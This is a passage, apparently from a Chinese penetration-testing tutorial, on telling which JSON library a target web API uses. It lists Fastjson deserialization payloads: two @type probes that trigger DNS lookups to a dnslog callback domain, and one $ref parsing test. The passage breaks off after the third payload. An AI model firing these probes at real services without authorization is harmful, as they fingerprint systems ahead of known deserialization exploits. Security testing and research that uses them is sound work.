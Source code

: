 [![](assets/1706959415-99a11a6b0959d4e91d4d5f597734ec58.jpeg)](https://xzfile.aliyuncs.com/media/upload/picture/20240125203134-ace01e6c-bb7d-1.jpeg)  
接下来，如果不做特别说明的话，我都是向`json`接口进行`post`请求`payload`。

## 一、判断所使用的 Json 库

需要注意的是，以下大部分都是在没有报错返回的情况下利用的方法，个别的我会做出说明。

## 1.1 Fastjson

### 1.1.1 dnslog 判断法

`payload1`：

```plain
{"@type":"java.net.InetSocketAddress"{"address":,"val":"rtpmognpiy.dgrh3.cn"}}
```

`payload2`：

```plain
{{"@type":"java.net.URL","val":"http://qvhkmkgcta.dgrh3.cn"}:"a"}
```

如果以上`payload`正常返回并受到`dnslog`请求，说明目标使用的是`fastjson`框架。

### 1.1.2 解析判断法

`payload3`：

```plain
{"ext":"blue","name":{"$ref":"$.ext"}}
```
